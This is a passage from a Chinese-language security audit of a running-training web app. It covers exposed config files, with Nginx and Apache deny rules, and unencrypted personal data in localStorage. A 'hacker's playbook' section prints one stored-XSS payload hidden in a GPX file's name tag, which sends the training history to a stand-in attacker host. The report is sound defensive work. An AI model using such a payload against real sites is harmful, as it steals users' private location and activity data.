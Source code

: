 *   **修復原理 (Principle of the Fix):**
    > 你的網站伺服器就像一家餐廳。你應該只把「菜單」(`index.html`, `bundle.js`, `style.css`) 給顧客看，而不是把包含所有「食譜、供應商清單和廚房內部排班表」的管理手冊 (`package.json`, `rollup.config.js`) 也放在餐桌上。我們必須設定伺服器的「服務生」，告訴他哪些檔案是訪客可以拿的，哪些絕對不行。

*   **修復建議與程式碼範例:**
    1.  **只部署 `dist` 目錄：** 你的建置流程 (`rollup`) 會產生一個 `dist` 目錄（或類似名稱）。你的網站根目錄應該指向這個 `dist` 目錄，而不是整個專案的根目錄。這樣，原始碼和設定檔就自然不會被部署上去。
    2.  **設定伺服器規則：** 如果你必須在根目錄部署，請為你的 Web 伺服器（如 Nginx 或 Apache）添加規則，明確禁止訪問敏感檔案。

    **Nginx 設定範例 (`nginx.conf`):**
    ```nginx
    location ~* \.(json|md|js\.map|config\.js)$ {
        deny all;
    }
    ```

    **Apache 設定範例 (`.htaccess`):**
    ```apache
    <FilesMatch "\.(json|md|js\.map|config\.js)$">
        Order allow,deny
        Deny from all
    </FilesMatch>
    ```

---

### **威脅 2：敏感個人資訊 (PII) 以明文形式儲存於瀏覽器**

*   **風險等級:** `高`
*   **威脅描述:** 應用程式使用 `localStorage` 來儲存使用者的訓練歷史、跑鞋里程和賽後復盤。`localStorage` 中的資料是 **完全沒有加密** 的，並且可以被任何在同一個網域下運行的 JavaScript 程式碼讀取。如果網站存在任何 XSS (跨網站指令碼) 漏洞，攻擊者可以輕易地竊取所有使用者的個人訓練資料。
*   **受影響的元件:**
    *   `js/ui/history-manager.js`
    *   `js/ui/shoe-manager.js`
    *   `js/ui/debrief-manager.js`

*   **駭客攻擊劇本 (Hacker's Playbook):**
    > 我發現你的網站可以上傳 GPX 檔案。我精心製作了一個惡意的 GPX 檔案，它的 `<name>` 標籤裡包含了一段 JavaScript 程式碼：`<name><![CDATA[<script>fetch('https://my-evil-server.com/steal?data=' + localStorage.getItem('trailSyncTrainingHistory'))</script>]]></name>`。你上傳了這個檔案，你的應用程式在某處用 `innerHTML` 顯示了這個路線名稱。我的腳本被執行了！你毫無察覺，但你所有的訓練歷史（你去過哪裡、什麼時候去的、跑了多久）已經全部被發送到了我的伺服器。如果你的其他用戶也上傳或查看了這個惡意檔案，他們的資料也一樣會被我偷走。

*   **修復原理 (Principle of the Fix):**
    > 將資料儲存在 `localStorage` 就好比是把你的日記本放在一個公共圖書館的桌子上。雖然它在你的桌位（你的瀏覽器），但任何能溜進這個圖書館（觸發 XSS）的人都能翻閱你的日記。對於敏感的個人資料，最好的方法是將其存放在一個需要鑰匙（用戶認證）才能進入的私人保險櫃（後端加密資料庫）裡。

*   **修復建議與程式碼範例:**
    1.  **【根本解決方案】引入後端服務:** 對於處理 PII 的應用，最安全的做法是建立一個簡單的後端 API。
        *   使用者需要註冊帳號並登入。
        *   所有訓練資料都透過 API 發送到後端，並儲存在資料庫中（例如 PostgreSQL, MongoDB）。
        *   資料庫中的敏感欄位應加密儲存。
        *   前端只在用戶登入後，才從後端獲取屬於該用戶的資料。
    2.  **【短期緩解措施】告知使用者風險:** 如果你暫時無法建立後端，你 **必須** 在網站上明確告知使用者：「所有資料都只儲存在您的本機瀏覽器中，不會上傳到雲端。請注意，這意味著更換瀏覽器或清除快取將導致資料遺失，且在不安全的網路環境下存在資料洩漏風險。」
    3.  **避免使用 `localStorage` 進行敏感資訊儲存**，這是原則性問題。

---
